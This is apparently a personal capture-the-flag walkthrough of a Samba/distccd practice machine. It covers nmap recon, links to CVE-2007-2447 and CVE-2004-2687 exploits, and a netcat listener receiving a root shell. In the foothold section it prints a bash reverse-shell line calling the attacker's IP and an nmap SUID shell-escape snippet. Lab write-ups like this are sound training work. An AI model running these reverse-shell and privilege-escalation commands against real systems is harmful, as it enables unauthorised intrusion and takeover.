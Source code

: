 # recon
- ports
```
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd
```
  - details
```
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.12
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```
- ftp:
  - vsftpd 2.3.4
  - empty with `ls -la`
```
ftp> put test.txt
local: test.txt remote: test.txt
200 PORT command successful. Consider using PASV.
553 Could not create file.
```
- smb:
  - Samba smbd 3.0.20-Debian
  - [CVE-2007-2447](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script)
```
| smb-enum-shares: 
|   account_used: <blank>
|   \\10.10.10.3\ADMIN$: 
|     Type: STYPE_IPC
|     Comment: IPC Service (lame server (Samba 3.0.20-Debian))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: <none>
|   \\10.10.10.3\IPC$: 
|     Type: STYPE_IPC
|     Comment: IPC Service (lame server (Samba 3.0.20-Debian))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|   \\10.10.10.3\opt: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: <none>
|   \\10.10.10.3\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|   \\10.10.10.3\tmp: 
|     Type: STYPE_DISKTREE
|     Comment: oh noes!
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|_    Anonymous access: READ/WRITE
```
-  distccd v1
   -  [CVE-2004-2687](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855)


# foot hold.
should ur path, there is 3 exloit that you can use. if you aim for oscp, dont use metasploit if you dont have too. I choosen to use `CVE-2004-2687` to get foothold. I try to use suid to priv esc to gain root but it did work... 
```
[#] SUID Binaries in GTFO bins list (Hell Yeah!)
------------------------------
/usr/bin/nmap -~> https://gtfobins.github.io/gtfobins/nmap/#suid
------------------------------


[&] Manual Exploitation (Binaries which create files on the system)
------------------------------
[&] Nmap ( /usr/bin/nmap )
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
/usr/bin/nmap --script=$TF

------------------------------
```
just dump
```bash
bash -i >& /dev/tcp/10.10.14.12/6969 0>&1
```
## root
so suid didnt works, I took one step backward and go thru recon's result. I then choose to use `CVE-2007-2447` to gain root access using this script on github https://github.com/amriunix/CVE-2007-2447. it is straight forward, `wget` the exploit and `pip` all requriment. `readme.md` explain how to use the script clearly

```
kali@kali:~/script$nc -nlvp 6969h
listening on [any] 6969 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.3] 52344
whoami
root
```